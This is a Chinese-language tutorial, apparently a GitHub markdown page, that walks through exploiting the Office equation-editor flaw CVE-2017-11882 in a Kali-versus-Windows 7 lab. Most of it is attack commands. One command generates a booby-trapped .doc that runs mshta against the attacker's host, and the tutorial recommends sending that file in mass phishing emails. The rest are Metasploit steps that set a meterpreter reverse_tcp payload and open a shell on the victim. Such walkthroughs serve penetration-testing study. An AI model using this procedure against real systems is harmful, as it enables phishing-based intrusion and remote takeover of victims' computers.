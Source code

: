 
# 基于文件类型的攻击（.DOC）
利用CVE-2017-11882攻击OFFICE应用程序进而获得系统控制权

# 0X00 攻击原理
OFFCIE中有一个文件是负责做公式编辑的文件EQNEDT32.EXE，该模块以OLE技术（Object Linking and Embedding，对象链接与嵌入）将公式嵌入在Office文档内。<br />	当插入和编辑数学公式时，EQNEDT32.EXE并不会被作为Office进程（如Word等）的子进程创建，而是以单独的进程形式存在。这就意味着对于WINWORD.EXE, EXCEL.EXE等Office进程的保护机制，无法阻止EQNEDT32.EXE这个进程被利用。<br />	由于该模块对于输入的公式未作正确的处理，攻击者可以通过刻意构造的数据内容覆盖掉栈上的函数地址，从而劫持程序流程，在登录用户的上下文环境中执行任意命令


# 0X01 攻击过程

## 1.获取攻击代码
[https://github.com/starnightcyber/CVE-2017-11882](https://github.com/starnightcyber/CVE-2017-11882)


## 2.攻击环境
攻击机：kali   ip：192.168.1.149<br />目标机：win7 ip：192.168.1.20


## 3.攻击过程
（1）生成win7下打开的word文件（含有反弹到kali的代码）
```
python Command_CVE-2017-11882.py -c "mshta http://192.168.1.149:8080/cve" -o cve11882.doc
```
<br />mshta：是个解析器，可以解析网页<br />![](https://img-blog.csdnimg.cn/20200603175730955.png#crop=0&crop=0&crop=1&crop=1&id=jBwkR&originHeight=84&originWidth=723&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

（2）需要使用社工方法将文件复制cve11882.doc到win7<br />比如通过群发邮件的方式发送邮件，而邮件中的附件含有该类型的文档，当然名字可能是个诱使你打开的文件名

（3）复制PS_shell到kali的攻击模块路径
```
/usr/share/metasploit-framework/modules/exploits/windows/fileformat
```
![](https://img-blog.csdnimg.cn/2020060317175895.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Dz2wJ&originHeight=242&originWidth=490&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

（4）kali服务器上启动侦听，等待来自win7的反弹连接
```
service postgresql start
msfdb  init
```
<br />![](https://img-blog.csdnimg.cn/20200603171911623.png#crop=0&crop=0&crop=1&crop=1&id=HhKJ3&originHeight=106&originWidth=706&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
msfconsole     -----启动msfconsole
msf5 > use  exploit/windows/fileformat/PS_shell
msf5 exploit(windows/fileformat/PS_shell) > set payload windows/meterpreter/reverse_tcp   --设置反弹PAYLOAD
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/PS_shell) > set lhost 192.168.1.149    --设置kali本地IP
lhost => 192.168.1.149
msf5 exploit(windows/fileformat/PS_shell) > set uripath cve    ----设置资源位置
uripath => cve
```
<br />![](https://img-blog.csdnimg.cn/20200603172222182.png#crop=0&crop=0&crop=1&crop=1&id=FEoeC&originHeight=178&originWidth=733&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
msf5 exploit(windows/fileformat/PS_shell) > show options
```
<br />![](https://img-blog.csdnimg.cn/20200603172301338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=kxg7c&originHeight=471&originWidth=729&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
msf5 exploit(windows/fileformat/PS_shell) > exploit   -----运行之后等待win7中的cve11882.doc文件打开
```
当该文件打开就会形成一个反弹连接到kali<br />![](https://img-blog.csdnimg.cn/20200603172401893.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=wN59T&originHeight=226&originWidth=731&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当win7打开文件时会产生一个反弹<br />![](https://img-blog.csdnimg.cn/20200603174021799.png#crop=0&crop=0&crop=1&crop=1&id=nXS4N&originHeight=101&originWidth=733&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
msf5 exploit(windows/fileformat/PS_shell) > sessions              ----查看可用会话
```
<br />![](https://img-blog.csdnimg.cn/20200603174201325.png#crop=0&crop=0&crop=1&crop=1&id=tLwlI&originHeight=179&originWidth=740&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
msf5 exploit(windows/fileformat/PS_shell) > sessions -i 1         ----选择上面的会话1获得Meterpreter,通过shell命令进入到win7的cmd
meterpreter > shell
```
<br />![](https://img-blog.csdnimg.cn/20200603174311283.png#crop=0&crop=0&crop=1&crop=1&id=IMrxD&originHeight=195&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

此时我们已经成功控制目标机win7，可以用whoami查看主机名，dir查看目录<br />![](https://img-blog.csdnimg.cn/20200603174456525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XinPQ&originHeight=291&originWidth=515&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
